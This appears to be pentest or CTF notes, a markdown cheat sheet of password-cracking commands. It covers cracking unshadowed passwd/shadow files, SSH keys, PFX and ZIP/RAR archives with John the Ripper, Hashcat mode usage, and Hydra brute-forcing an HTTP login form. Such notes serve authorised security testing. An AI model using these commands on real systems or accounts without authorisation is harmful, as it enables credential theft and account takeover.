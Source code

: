 ## Intro
This covers all scenarios where password may need to be cracked

## Identifying hashes
```
wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py.

python3 hash-id.py
```
It is already installed on Kali as **hash-identifier**
```
hash-identifier
```

## John
### Basic
Create txt file with found hashes / encrypted passwords and hope that John recognizes them.
```
# basic
john foundusers.txt

# use custom wordlist 
john --wordlist=/usr/share/wordlists/rockyou.txt foundusers.txt

# specify format
# E.g: NT, LM, raw-md5, raw-sha1, raw-sha256
john --format=raw-md5 1.txt
```
### passwd and shadow
```
# combine the passwd and shadow files
# unshadow [path to passwd] [path to shadow]
unshadow passwd shadow > unshadow.txt

# Crack the unshadowed file
john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt unshadow.txt
```
### SSH keys
```
# Generate text file john understands
# ssh2john [id_rsa private key file] > [output file]
ssh2john id_rsa > id_rsa_hash.txt

# Crack the output file
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt
```

## PFX files
```
# Generate text file john understands
pfx2john file.pfx > hash.txt

# Crack the output file
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### ZIP & RAR files
If we manage to get a password-protected ZIP file we can use **John the ripper** to crack te password.
```
# Generate text file john understands
# rar2john [rar file] > [output file]
rar2john rarfile.rar > hash.txt
zip2john backup.zip > hash.txt

# Crack the output file
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## Hashcat
Hashcat needs to know explicitly what we want to crack, we use "mode" to specify it

https://hashcat.net/wiki/doku.php?id=example_hashes
```
hashcat -m 1710 -o results.txt hash.txt /usr/share/wordlists/rockyou.txt
# -m 1710 – mode
# -o results.txt – results
# hash.txt – hashes to be cracked
# /usr/share/wordlists/rockyou.txt – wordlist
```
### psafe3
```
hashcat -a 0 -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt
```

## Hydra
### HTTP Post form
```
# It may be very slow
hydra <IP> -l <user> -P /usr/share/wordlists/rockyou.txt http-post-form "/hydra/login.php:login=^USER^&haslo=^PASS^:Zle haslo"
```
Hydra can be also used to attack FTP, SSH, SMTP, SMB and more. 
